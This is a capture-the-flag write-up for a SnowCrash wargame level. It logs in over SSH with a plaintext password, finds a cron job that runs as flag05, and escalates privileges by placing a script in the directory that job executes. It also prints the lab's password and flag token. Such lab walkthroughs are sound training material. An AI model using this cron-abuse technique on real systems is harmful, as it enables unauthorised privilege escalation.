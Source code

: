 # Level04

Login as `level05`

```bash
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level05
level05@192.168.1.64's password: ne2searoevaevoem4ov4ar8ap
You have a new mail.
```

Once logged, a message tells us we got a new mail. So we check `/var/$USER`

```bash
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

```bash
level05@SnowCrash:~$ cd /var/mail
level05@SnowCrash:~$ cat level05
>>> */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

It seems to be a chrontab executed by flag05 every 2 minutes.\
Let's check what **openarenaserver** does:

```bash
level05@SnowCrash:/opt/openarenaserver$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

This script executes `as flag05` everything in `/opt/openarenaserver/` and deletes it right after.\
So let's create a bash script and leave it in that folder in order to execute `getflag` as flag05.

```bash
level05@SnowCrash:~$ vim /opt/openarenaserver/getflag.sh
#!/bin/bash
/bin/getflag > /tmp/flag05
```

Then I use chmod on my file to set the execution rights:

```bash
level05@SnowCrash:~$ chmod 777 /opt/openarenaserver/getflag.sh
```

Lets wait around 2 minutes (because crontab executes every 2 min) and cat the out file `/tmp/flag05`:

```bash
level05@SnowCrash:~$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
